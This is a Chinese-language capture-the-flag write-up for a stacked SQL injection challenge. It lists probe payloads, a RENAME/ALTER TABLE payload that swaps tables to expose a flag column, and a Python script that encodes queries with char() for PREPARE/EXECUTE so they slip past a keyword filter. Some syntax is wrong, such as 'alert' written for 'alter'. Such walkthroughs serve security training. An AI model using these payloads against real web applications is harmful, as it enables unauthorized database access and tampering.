







sql注入拿到题目都先尝试各种操作，观察有什么字段被过滤，快速的判断可以使用什么注入方式。

常见的尝试字段有：

```python
1'
1'or'1'='1
1'||'1'='1
1'order by 2--+  //采用二分查找法
1'union select null--+
1'sleep(3)--+
```

1.1 1



1.2 1'



1.3 1'union select null--+



过滤了select和.

这种强力过滤，无法进行跨表查询，此时考虑堆叠注入


1.4 1';show databases;#

查询出了数据库名




1.5 1';show tables;#




1.6 查看表名为数字的的表含有什么字段

1';show columns from 1919810931114514;#

222';show columns from words;#


1.7确定words表为默认查询表，1919810931114514表中含有flag字段。过滤中没有过滤rename和alert.

此时可以采取思路：

先更改words表为words1，再更改1919810931114514表，表名为words。再将1919810931114514表的flag字段改为id。此时直接网页查询即可出现flag。


1.8采用一个大佬的payload:

```python
/?inject=1';RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#
```


首先了解一下rename和alter


1.8.1rename 用于修改表名，

```python
命令格式：rename 原表名 to 新表名；
```

列如更改：myclass的表名为youclass

```python
rename myclass to youclass;
```


1.8.2 alert用于修改字段，还可对字段进行删除，增加操作。

```python
命令格式：alert TABLE 'tableName' CHANGE 'flag' 'id' VARCHAR(100)
```


1.9payload之后表名和字段就已经更改了




1.10 提交 1‘or'1,查询所有字段内容即可查出答案




2.另外的思路：

chr没有过滤。

也可以采用常规思路，将所有注入的字段转换为ascii

附个大佬们的exp

https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8

```python
payload = "0';set @s=concat(%s);PREPARE a FROM @s;EXECUTE a;"
exp = 'select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()'
# exp = "select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='1919810931114514'"
# exp = "select flag from `1919810931114514`"
res = ''
for i in exp:
	res += "char(%s),"%(ord(i))
my_payload = payload%(res[:-1])
print my_payload
```


